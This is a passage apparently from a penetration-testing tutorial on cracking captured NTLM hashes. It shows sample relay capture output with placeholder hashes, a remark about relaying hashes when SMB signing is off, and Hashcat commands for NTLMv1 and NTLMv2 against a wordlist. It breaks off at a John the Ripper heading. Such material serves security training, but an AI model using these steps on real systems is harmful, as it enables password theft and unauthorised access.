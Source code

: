 ```
[+] NTLMv2-SSP Client   : 192.168.1.100
[+] User                : VICTIM\user
[+] NTLM Hash           : 11223344556677889900AABBCCDDEEFF:11223344556677889900AABBCCDDEE
```

🚨 **If SMB signing is disabled**, attackers can **relay** this hash or try to **crack** it.

## **4.2 Crack NTLM Hashes with Hashcat**

Once an NTLMv1/NTLMv2 hash is captured, use **Hashcat** to crack it.

### **🔥 Identify Hash Type**

Check if the captured hash is:

- **NTLMv1** → **Mode 5500**
- **NTLMv2** → **Mode 5600**

---

### **🔥 Crack NTLMv2 Hash with Hashcat**

 Save the NTLM hash into a file (e.g., `hashes.txt`):

```
user::DOMAIN:3c4a896b3f94b3e3:11223344556677889900AABBCCDDEEFF
```

 Run Hashcat against the NTLMv2 hash:

```bash
hashcat -m 5600 hashes.txt /path/to/rockyou.txt --force
```

✅ If successful, Hashcat will return the **plaintext password**.

---

### **🔥 Crack NTLMv1 Hash with Hashcat**

 Save the NTLMv1 hash in `ntlmv1.txt`:

```
user::DOMAIN:11223344556677889900AABBCCDDEEFF
```

 Run Hashcat using NTLMv1 attack mode:

```bash
hashcat -m 5500 ntlmv1.txt /path/to/rockyou.txt --force
```

✅ **NTLMv1 hashes are weaker and easier to crack than NTLMv2.**

---

## **Crack NTLM Hashes with John the Ripper**
